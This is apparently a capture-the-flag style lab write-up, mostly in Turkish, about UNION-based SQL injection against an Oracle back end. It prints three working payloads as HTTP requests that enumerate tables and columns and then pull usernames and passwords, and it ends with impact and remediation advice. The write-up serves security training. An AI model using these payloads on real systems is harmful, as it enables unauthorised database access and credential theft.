



# SQL injection attack, listing the database contents on Oracle

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Uygulama `category` parametresini doğrulamadan SQL sorgusuna ekliyor. Bu sayede Oracle veritabanında `UNION SELECT` kullanarak tablo isimlerini, sütun isimlerini ve kullanıcı bilgilerini listelemek mümkün oldu.

## 3. Exploitation Steps

1. `category` parametresine tek tırnak ekleyerek sorgunun kırılıp kırılmadığını test ettim.
2. `UNION SELECT` ile doğru kolon sayısını buldum.
3. Oracle için `all_tables` üzerinden tablo isimlerini listeledim.
4. `all_tab_columns` tablosu üzerinden `USERS_BJAPLX` tablosunun sütun adlarını aldım.
5. Son olarak `USERS_BJAPLX` tablosundan `USERNAME_REWXWI` ve `PASSWORD_XYTSRS` değerlerini çekerek kullanıcı bilgilerini elde ettim.

## 4. Kullanılan Payloadlar

- Tabloları listelemek için:

```http
GET /filter?category=' UNION SELECT table_name,null FROM all_tables-- HTTP/2
```



- Bir tablo için sütunları listelemek için:

```http
GET /filter?category=' UNION SELECT column_name,null FROM all_tab_columns WHERE table_name='USERS_BJAPLX'-- HTTP/2
```



- Kullanıcı bilgilerini çıkarmak için:

```http
GET /filter?category=' UNION SELECT USERNAME_REWXWI,PASSWORD_XYTSRS FROM USERS_BJAPLX-- HTTP/2
```



## 5. Sonuç

- `all_tables` üzerinden Oracle veritabanındaki tablo adlarını listeledim.
- `all_tab_columns` ile `USERS_BJAPLX` tablosunun sütun adlarını tespit ettim.
- `USERS_BJAPLX` tablosundan kullanıcı adı ve parola değerlerini elde ettim.

## 6. Etki

Bu zafiyet, saldırganın veritabanı şemasını keşfetmesine ve hassas kullanıcı bilgilerini dışarı çıkarmasına izin verir. Veritabanındaki kritik tablolar, sütunlar ve kayıtlar açığa çıkabilir.

## 7. Çözüm

- SQL sorgularında parametreli/prepared statement kullan.
- Kullanıcı girdilerini filtrele ve doğrula.
- Hata mesajlarında ve çıktı alanlarında iç veritabanı bilgisi göstermemeye dikkat et.
